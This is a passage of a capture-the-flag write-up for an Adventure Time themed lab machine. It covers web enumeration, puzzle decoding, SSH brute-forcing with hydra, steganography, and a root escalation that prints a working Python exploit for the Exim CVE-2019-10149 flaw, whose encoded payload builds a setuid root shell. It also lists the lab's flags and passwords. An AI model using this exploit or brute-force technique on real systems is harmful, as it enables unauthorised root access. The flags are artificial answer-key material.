The certificate reveals an email address:

* Country: CK
* State/Province: Candy Kingdom
* Organization: Candy Corporate Inc.
* Organizational Unit: CC
* Common Name: adventure-time.com
* Email Address: bubblegum@land-of-ooo.com

We now have 2 new domains:
* adventure-time.com
* land-of-ooo.com


**Virtualhosts**

There are probably virtualhosts on the server. Let's try to add the new domains to our hosts file.

~~~
$ sudo sh -c "echo '10.10.28.59 adventure-time.com land-of-ooo.com' >> /etc/hosts"
~~~

Now, let's visit the domains. Connecting to https://adventure-time.com leads to the same page as previously, but connecting to https://land-of-ooo.com/ reveals something new:

~~~
<!DOCTYPE html>
<html>
<head>
<title>You found Jake</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>
</body>
</html> 
~~~



Source of https://land-of-ooo.com/yellowdog/:

~~~
<!DOCTYPE html>
<html>
<head>
<title>To find a password</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>
</body>
</html> 
~~~


Recursively searching in this directory with dirsearch reveals https://land-of-ooo.com/yellowdog/bananastock/

~~~
<!DOCTYPE html>
<html>
<head>
<title>Those banana guards are not really smart</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>

    <!-- _/..../.\_.../._/_./._/_./._/...\._/._./.\_/..../.\_..././.../_/_._.__/_._.__/_._.__ -->
</body>
</html> 
~~~



Use https://www.dcode.fr/code-morse to decode the message:

~~~
THE BANANAS ARE THE BEST!!!
~~~

Not sure what this will be used for, but according to the picture, it could be a password.

Now, let's search recursively in the directory. dirsearch found another subdirectory: https://land-of-ooo.com/yellowdog/bananastock/princess/:

~~~
<!DOCTYPE html>
<html>
<head>
<title>What secret safe?</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>

    <!--
    Secrettext = 0008f1a92d287b48dccb5079eac18ad2a0c59c22fbc7827295842f670cdb3cb645de3de794320af132ab341fe0d667a85368d0df5a3b731122ef97299acc3849cc9d8aac8c3acb647483103b5ee44166
    Key = my cool password
    IV = abcdefghijklmanopqrstuvwxyz
    Mode = CBC
    Input = hex
    Output = raw
    -->

</body>
</html> 
~~~



Use an online AES decoder (e.g. http://aes.online-domain-tools.com/) to decode the message:



The message is kind of truncated but here is what we can get:

~~~
accessibel at port 31337 the magic word is: ricardio
~~~

## Port 31337

Let's connect to port 31337 and provide the magic word.

~~~
$ nc 10.10.28.59 31337
Hello Princess Bubblegum. What is the magic word?
ricardio
The new username is: apple-guards
~~~

#1 - Content of flag1 – format is tryhackme{************}

*Hint: Try to recursively enumerate the website.*

Now that we have a username and a password, let's try to connect to port 22 (ssh):

* username: apple-guards
* password: THE BANANAS ARE THE BEST!!!

We can find flag1 in our home directory:

~~~
apple-guards@at:~$ cat /home/apple-guards/flag1 
tryhackme{Th1s1sJustTh3St4rt}
~~~

Not sure what flag.txt is, it looks like a MD5 hash but I could not find it cracked anywhere on the Internet.

~~~
apple-guards@at:~$ cat flag.txt 
Good job!!!!


tryhackme{2e37796b2bd0eae4b20c36cb359610ad}
~~~

Flag1: `tryhackme{Th1s1sJustTh3St4rt}`

#2 - Content of flag2 – format is tryhackme{************}

*Hint: Can you search for someones files?*

In our home, we find a mailbox file:

~~~
apple-guards@at:~$ cat mbox 
From marceline@at  Fri Sep 20 16:39:54 2019
Return-Path: <marceline@at>
X-Original-To: apple-guards@at
Delivered-To: apple-guards@at
Received: by at.localdomain (Postfix, from userid 1004)
	id 6737B24261C; Fri, 20 Sep 2019 16:39:54 +0200 (CEST)
Subject: Need help???
To: <apple-guards@at>
X-Mailer: mail (GNU Mailutils 3.4)
Message-Id: <20190920143954.6737B24261C@at.localdomain>
Date: Fri, 20 Sep 2019 16:39:54 +0200 (CEST)
From: marceline@at

Hi there bananaheads!!!
I heard Princess B revoked your access to the system. Bummer!
But I'll help you guys out.....doesn't cost you a thing.....well almost nothing.

I hid a file for you guys. If you get the answer right, you'll get better access.
Good luck!!!!
~~~

This was a message from marceline, who is a user on the server. Looking for files owned by marceline, we find an executable:

~~~
apple-guards@at:/home$ find / -type f -user marceline 2>/dev/null
/etc/fonts/helper
apple-guards@at:/home$ file /etc/fonts/helper
/etc/fonts/helper: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=6cee442f66f3fb132491368c671c1cf91fc28332, for GNU/Linux 3.2.0, not stripped
~~~

There is a simple Vigenere challenge (key is "gone") to solve to have her password:

~~~
apple-guards@at:/home$ /etc/fonts/helper 


======================================
      BananaHead Access Pass          
       created by Marceline           
======================================

Hi there bananaheads!!!
So you found my file?
But it won't help you if you can't answer this question correct.
What? I told you guys I would help and that it wouldn't cost you a thing....
Well I lied hahahaha

Ready for the question?

The key to solve this puzzle is gone
And you need the key to get this readable: Gpnhkse

Did you solve the puzzle? yes

What is the word I'm looking for? Abadeer

That's it!!!! You solved my puzzle
Don't tell princess B I helped you guys!!!
My password is 'My friend Finn'
~~~

Now we have marceline's password: 

~~~
apple-guards@at:/home$ su marceline
Password: 
marceline@at:~$ cat /home/marceline/flag2 
tryhackme{N1c30n3Sp0rt}
~~~

Flag2: `tryhackme{N1c30n3Sp0rt}`

#3 - Content of flag3 – format is tryhackme{************}

*Hint: If stuck do research on cutlery.*

~~~
marceline@at:~$ cat I-got-a-secret.txt 
Hello Finn,

I heard that you pulled a fast one over the banana guards.
B was very upset hahahahaha.
I also heard you guys are looking for BMO's resetcode.
You guys broke him again with those silly games?

You know I like you Finn, but I don't want to anger B too much.
So I will help you a little bit...

But you have to solve my little puzzle. Think you're up for it?
Hahahahaha....I know you are.

111111111100100010101011101011111110101111111111011011011011000001101001001011111111111111001010010111100101000000000000101001101111001010010010111111110010100000000000000000000000000000000000000010101111110010101100101000000000000000000000101001101100101001001011111111111111111111001010000000000000000000000000001010111001010000000000000000000000000000000000000000000001010011011001010010010111111111111111111111001010000000000000000000000000000000001010111111001010011011001010010111111111111100101001000000000000101001111110010100110010100100100000000000000000000010101110010100010100000000000000010100000000010101111100101001111001010011001010010000001010010100101011100101001101100101001011100101001010010100110110010101111111111111111111111111111111110010100100100000000000010100010100111110010100000000000000000000000010100111111111111111110010100101111001010000000000000001010
~~~

This looks like binary but trying to decode it led nowhere. Use https://www.dcode.fr/langage-spoon to decode ths SPOON language:



The decoded message is "The magic word you are looking for is ApplePie". Let's use the program running on port 31337 again:

~~~
unknown@localhost:/data/documents/challenges/TryHackMe$ nc 10.10.151.170 31337
Hello Princess Bubblegum. What is the magic word?
ApplePie
The password of peppermint-butler is: That Black Magic
~~~

Let's switch user and get the flag:

~~~
marceline@at:/home$ su peppermint-butler 
Password: 
peppermint-butler@at:~$ cat /home/peppermint-butler/flag3 
tryhackme{N0Bl4ckM4g1cH3r3}
~~~

Flag3: `tryhackme{N0Bl4ckM4g1cH3r3}`

#4 - Content of flag4 – format is tryhackme{************}

*Hint: Things can be hidden and hidden things can be unfold with the right passwords.*

There is a picture (`butler-1.jpg`) in the home directory:



Besides, here is some useful information to discover the hidden secret in the image:

~~~
peppermint-butler@at:~$ find / -type f -user peppermint-butler 2>/dev/null | head
/usr/share/xml/steg.txt
/etc/php/zip.txt
/proc/1779/task/1779/fdinfo/0
/proc/1779/task/1779/fdinfo/1
/proc/1779/task/1779/fdinfo/2
/proc/1779/task/1779/fdinfo/255
/proc/1779/task/1779/environ
/proc/1779/task/1779/auxv
/proc/1779/task/1779/status
/proc/1779/task/1779/personality
peppermint-butler@at:~$ cat /usr/share/xml/steg.txt
I need to keep my secrets safe.
There are people in this castle who can't be trusted.
Those banana guards are not the smartest of guards.
And that Marceline is a friend of princess Bubblegum,
but I don't trust her.

So I need to keep this safe.

The password of my secret file is 'ToKeepASecretSafe'
peppermint-butler@at:~$ cat /etc/php/zip.txt
I need to keep my secrets safe.
There are people in this castle who can't be trusted.
Those banana guards are not the smartest of guards.
And that Marceline is a friend of princess Bubblegum,
but I don't trust her.

So I need to keep this safe.

The password of my secret file is 'ThisIsReallySave'
~~~

Using the first password (`ToKeepASecretSafe`), we are able to find a zip file in the image:

~~~
$ steghide info butler-1.jpg 
"butler-1.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secrets.zip":
    size: 853.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
$ steghide extract -sf butler-1.jpg 
Enter passphrase: 
wrote extracted data to "secrets.zip".
~~~

This zip archive is password protected, and we can unzip it with the second password (`ThisIsReallySave`):

~~~
$ zipinfo secrets.zip 
Archive:  secrets.zip
Zip file size: 853 bytes, number of entries: 1
-rw-r--r--  3.0 unx      653 BX stor 19-Sep-20 21:13 secrets.txt
1 file, 653 bytes uncompressed, 653 bytes compressed:  0.0%
$ 7z x secrets.zip 
$ cat secrets.txt 
[0200 hours][upper stairs]
I was looking for my arch nemesis Peace Master, 
but instead I saw that cowering little puppet from the Ice King.....gunter.
What was he up to, I don't know.
But I saw him sneaking in the secret lab of Princess Bubblegum.
To be able to see what he was doing I used my spell 'the evil eye' and saw him.
He was hacking the secret laptop with something small like a duck of rubber.
I had to look closely, but I think I saw him type in something.
It was unclear, but it was something like 'The Ice King s????'.
The last 4 letters where a blur.

Should I tell princess Bubblegum or see how this all plays out?
I don't know....... 
~~~

This message let us know the beginning of gunter's password (`The Ice King s????`), and we have to find out the missing characters (`?`).

As the passwords found so far are based on passphrases, our missing characters are likely part of an existing word, 5 letters long, beginning with "s". I went to https://scrabblewordfinder.org/5-letter-words-starting-with/s and built a text file of possible [passwords](files/passwords_gunter.txt) that I'll use with hydra.

~~~
$ hydra -l gunter -P passwords_gunter.txt ssh://10.10.8.146
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-07 17:39:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1564 login tries (l:1/p:1564), ~98 tries per task
[DATA] attacking ssh://10.10.8.146:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 1388 to do in 00:08h, 16 active
[STATUS] 124.00 tries/min, 372 tries in 00:03h, 1197 to do in 00:10h, 16 active
[STATUS] 117.57 tries/min, 823 tries in 00:07h, 748 to do in 00:07h, 16 active
[STATUS] 115.25 tries/min, 1383 tries in 00:12h, 188 to do in 00:02h, 16 active
[22][ssh] host: 10.10.8.146   login: gunter   password: The Ice King sucks
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-07 17:51:33
~~~

Let's switch user and get the flag:

~~~
peppermint-butler@at:/home$ su gunter
Password: 
gunter@at:/home$ cd
gunter@at:~$ pwd
/home/gunter
gunter@at:~$ ll
total 36
drwxr-x---  4 gunter gunter 4096 sep 23  2019 ./
drwxr-xr-x 10 root   root   4096 sep 20  2019 ../
-rw-r--r--  1 gunter gunter  220 apr  4  2018 .bash_logout
-rw-r--r--  1 gunter gunter 3771 apr  4  2018 .bashrc
drwx------  2 gunter gunter 4096 sep 20  2019 .cache/
-rw-r-----  1 gunter gunter   25 sep 22  2019 flag4
drwx------  3 gunter gunter 4096 sep 20  2019 .gnupg/
-rw-r--r--  1 gunter gunter  807 apr  4  2018 .profile
-rw-------  1 gunter gunter 1627 sep 22  2019 .viminfo
gunter@at:~$ cat /home/gunter/flag4 
tryhackme{P1ngu1nsRul3!}
~~~

Flag4: `tryhackme{P1ngu1nsRul3!}`

#5 - Content of flag5 – format is tryhackme{************}

Let's search for programs owned by root with the SUID bit set:

~~~
gunter@at:/home$ find / -user root -perm -u=s 2>/dev/null
/usr/sbin/pppd
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/arping
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/bin/ping
/bin/umount
/bin/su
/bin/fusermount
/bin/mount
~~~

Interesting to see exim in the list. Let's check the version.

~~~
gunter@at:/home$ exim4 --version
Exim version 4.90_1 #4 built 14-Feb-2018 16:01:14
Copyright (c) University of Cambridge, 1995 - 2017
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2017
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() IPv6 GnuTLS move_frozen_messages DKIM DNSSEC Event OCSP PRDR SOCKS TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb dsearch nis nis0 passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
~~~

Searching on the Google for privilege escalation exploits affecting Exim 4.90, I found CVE-2019-10149 (https://www.exploit-db.com/download/46996).

~~~
gunter@at:/etc/exim4$ grep interface /etc/exim4/update-exim4.conf.conf 
dc_local_interfaces='127.0.0.1.60000'
~~~

We can confirm:

~~~
gunter@at:~$ nc 127.0.0.1 60000
220 at ESMTP Exim 4.90_1 Ubuntu Sun, 07 Jun 2020 18:59:36 +0200
^C
~~~

I found this exploit: https://raw.githubusercontent.com/AzizMea/CVE-2019-10149-privilege-escalation/master/wizard.py (below is tuned version with the right port):

```python
import socket
import os

server = "localhost"
port = 60000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, port))
reply = s.recv(1024)
print(reply.decode())
s.send('HELO localhost\r\n'.encode())
reply = s.recv(1024)
print(reply.decode())
s.send('MAIL FROM:<>\r\n'.encode())
reply = s.recv(1024)
print(reply.decode())
#/bin/bash -c "export PATH=/usr/bin;cd /tmp;echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzeXMvdHlwZXMuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgppbnQgbWFpbih2b2lkKQp7CnNldHVpZCgwKTsgc2V0Z2lkKDApOyBzeXN0ZW0oIi9iaW4vYmFzaCIpOwp9Cg==|base64 -d|gcc -o s -xc -;/bin/chmod 4111 s" &
payload = r'RCPT TO: root+${run{\x2fbin\x2fbash\x20\x2dc\x20\x22export\x20PATH\x3d\x2fusr\x2fbin\x3bcd\x20\x2ftmp\x3becho\x20I2luY2x1ZGUgPHN0ZGlvLmg\x2bCiNpbmNsdWRlIDxzeXMvdHlwZXMuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgppbnQgbWFpbih2b2lkKQp7CnNldHVpZCgwKTsgc2V0Z2lkKDApOyBzeXN0ZW0oIi9iaW4vYmFzaCIpOwp9Cg\x3d\x3d\x7cbase64\x20\x2dd\x7cgcc\x20\x2do\x20s\x20\x2dxc\x20\x2d\x3b\x2fbin\x2fchmod\x204111\x20s\x22\x20\x26}@' + server + '\r\n'
s.send(payload.encode())
reply = s.recv(1024)
print(reply.decode())
s.send('DATA\r\n'.encode())
reply = s.recv(1024)
print(reply.decode())
msg = 'Received: 1\nReceived: 2\nReceived: 3\nReceived: 4\nReceived: 5\nReceived: 6\nReceived: 7\nReceived: 8\nReceived: 9\nReceived: 10\nReceived: 11\nReceived: 12\nReceived: 13\nReceived: 14\nReceived: 15\nReceived: 16\nReceived: 17\nReceived: 18\nReceived: 19\nReceived: 20\nReceived: 21\nReceived: 22\nReceived: 23\nReceived: 24\nReceived: 25\nReceived: 26\nReceived: 27\nReceived: 28\nReceived: 29\nReceived: 30\nReceived: 31\r\n'
s.send( msg.encode())
s.send('.\r\n'.encode())
reply = s.recv(1024)
print(reply)
s.close()
os.system('/tmp/s')
```

Copy the script in /tmp and execute it.

~~~
gunter@at:/tmp$ python wizard.py 
220 at ESMTP Exim 4.90_1 Ubuntu Sun, 07 Jun 2020 19:12:08 +0200

250 at Hello localhost [127.0.0.1]

250 OK

250 Accepted

354 Enter message, ending with "." on a line by itself

250 OK id=1jhyq8-0000r2-HW

root@at:/tmp# whoami
root
~~~

However, the flag is not in the `/root` directory and you won't find it searching for `flag5`. The secret is located in the `Secrets/` subdirectory of bubblegum's home.

~~~
root@at:/home/bubblegum# cat /home/bubblegum/Secrets/bmo.txt 


░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░▄██████████████████████▄░░░░
░░░░█░░░░░░░░░░░░░░░░░░░░░░█░░░░
░░░░█░▄██████████████████▄░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░░░░█░█░░█░░░░░░░░░░░░█░░█░█░░░░
░░░░█░█░░░░░▄▄▄▄▄▄▄▄░░░░░█░█░░░░
░░░░█░█░░░░░▀▄░░░░▄▀░░░░░█░█░░░░
░░░░█░█░░░░░░░▀▀▀▀░░░░░░░█░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░█▌░█░▀██████████████████▀░█░▐█░
░█░░█░░░░░░░░░░░░░░░░░░░░░░█░░█░
░█░░█░████████████░░░░░██░░█░░█░
░█░░█░░░░░░░░░░░░░░░░░░░░░░█░░█░
░█░░█░░░░░░░░░░░░░░░▄░░░░░░█░░█░
░▀█▄█░░░▐█▌░░░░░░░▄███▄░██░█▄█▀░
░░░▀█░░█████░░░░░░░░░░░░░░░█▀░░░
░░░░█░░░▐█▌░░░░░░░░░▄██▄░░░█░░░░
░░░░█░░░░░░░░░░░░░░▐████▌░░█░░░░
░░░░█░▄▄▄░▄▄▄░░░░░░░▀██▀░░░█░░░░
░░░░█░░░░░░░░░░░░░░░░░░░░░░█░░░░
░░░░▀██████████████████████▀░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░▐██░░░░░░░░░░░░██▌░░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░


Secret project number: 211243A
Name opbject: BMO
Rol object: Spy

In case of emergency use resetcode: tryhackme{Th1s1s4c0d3F0rBM0}


-------

Good job on getting this code!!!!
You solved all the puzzles and tried harder to the max.
If you liked this CTF, give a shout out to @n0w4n.
~~~

Flag5: `tryhackme{Th1s1s4c0d3F0rBM0}`